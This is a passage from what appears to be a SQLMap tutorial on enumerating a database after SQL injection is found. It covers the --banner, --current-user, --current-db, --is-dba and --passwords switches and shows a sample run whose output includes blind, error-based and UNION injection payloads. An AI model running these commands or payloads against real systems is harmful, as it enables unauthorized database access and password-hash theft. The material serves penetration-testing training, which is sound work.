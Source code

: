 * In case of retrieval of the current user name (switch `--current-user`), the `CURRENT_USER()` query will be used.

Another example is retrieving all the usernames (i.e., tag `<users>`). There are two queries used, depending on the situation. The query marked as `inband` is used in all non-blind situations (i.e., ``UNION-query`` and ``error-based`` SQLi), where the query results can be expected inside the response itself. The query marked as `blind`, on the other hand, is used for all blind situations, where data has to be retrieved row-by-row, column-by-column, and bit-by-bit.

### Basic DB Data Enumeration
Usually, after a successful detection of SQLi, we can begin the **enumeration** of basic details from the database, such as the **hostname** (`--hostname`), current **user's name** (`--current-user`), current **database name** (`--current-db`), or **password hashes** (`--passwords`). 

SQLMap will skip SQLi detection if it has been identified earlier and directly start the DBMS enumeration process.

**Enumeration** usually starts with the retrieval of the basic information:
- **Database version banner** (switch `--banner`)
- **Current user name** (switch `--current-user`)
- **Current database name** (switch `--current-db`)
- **Checking if the current user has DBA** (**administrator**) **rights** (switch `--is-dba`)

The following SQLMap command does all of the above:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
```